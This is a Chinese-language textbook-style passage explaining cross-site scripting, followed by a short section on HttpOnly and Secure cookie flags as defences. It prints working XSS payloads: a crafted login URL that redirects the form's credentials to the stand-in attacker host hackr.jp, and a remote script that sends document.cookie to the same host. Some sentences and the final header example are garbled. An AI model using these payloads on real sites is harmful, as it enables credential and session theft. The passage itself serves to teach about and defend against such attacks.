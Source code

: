 **（1）跨站脚本攻击属于被动攻击模式,因此攻击者会事先布置好用于攻击的陷阱。地址栏中URI的查询字段指定ID,即相当于在表单内自动填写字符串的功能。而就在这个地方,隐藏着可执行跨站脚本攻击的漏洞。充分熟知此处漏洞特点的攻击者,于是就创建了下面这段嵌入恶意代码的URL。**
```
http://example.jp/login?
ID="><script>var+f=document.getElementById("login");
+f.action="http://hackr.jp/pwget";
+f.method="get";</script><span+s="
```
浏览器打开该URI后,直观感觉没有发生任何变化,但设置好的脚本却偷偷开始运行了。当用户在表单内输入ID和密码之后,就会直接发送到攻击者的网站，导致个人信息被窃取。

**（2）对用户Cookie的窃取攻击**
可的脚本同样能够以

```
<script src=http://hackr.jp/xss.jsx></script>
```
该脚本内指定http://hackr.jp/xss.js文件。即下面这段采用javascript编写的代码。
```
var content = escape(document.cookie);
document.write("<img src = http://hackr.jp/?");
document.write(content);
document.write(">");
```
在存在可跨站脚本攻击安全漏洞的Web应用上执行上面这段javascript程序,即可访问到该Web应用所处域名下的Cookie信息。然后这些信息会发送至攻击者的Web网站(http://hackr.jp)记录在他的日志中。结果,攻击者就这样窃取到用户的Cookie信息了。

**(3) Cookie如何防范XSS攻击**

XSS（跨站脚本攻击）是指攻击者在返回的HTML中嵌入javascript脚本，为了减轻这些攻击，需要在HTTP头部配上，set-cookie：

httponly-这个属性可以防止XSS,它会禁止javascript脚本来访问cookie。

secure - 这个属性告诉浏览器仅在请求为https的时候发送cookie。

结果应该是这样的：
```
Set-Cookie=<cookie-value>.....
```


